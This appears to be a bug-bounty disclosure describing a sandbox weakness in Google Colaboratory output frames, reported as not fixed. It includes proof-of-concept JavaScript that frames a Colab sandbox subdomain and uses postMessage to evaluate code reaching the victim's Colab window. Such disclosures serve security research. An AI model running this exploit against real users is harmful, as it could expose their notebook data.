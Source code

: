 ```yaml
---
title: Insecure sandbox implementation on Colaboratory output frames (Awarded $1337, Not Fixed)
---
```

Google Colaboratory puts some output such as visualizations into a sandbox however it has no embedding protection such as csp frame-ancestors so the origin is exposed to attackers with local network access.

```js
let w = open('about:blank');
```

On about:blank
```js
opener.location = 'https://colab.research.google.com/';
```

Leak ID from unencrypted DNS then do
```js
let IDfromDNS = 'blah';
let f = document.createElement('iframe');
f.hidden = true;
f.src = 'https://'+IDfromDNS+'-0-colab.googleusercontent.com/outputframe.html';
document.body.appendChild(f);
setTimeout(_ => { f.contentWindow.postMessage({sandboxed_iframe_evaluation: 'console.log(parent.opener[0].google)'}, '*'); }, 100);
```

On the "Welcome to Colaboratory" project using the sandbox embeded on the attackers website.
- ```parent.opener[0].google``` refers to stuff.
- ```parent.opener[5].document``` refers to the chart.

Sometimes sandboxes use a randomly genrated subdomain for isolation unfortunately due to unencrypted DNS this is not safe <https://www.cloudflare.com/learning/dns/dns-over-tls/>
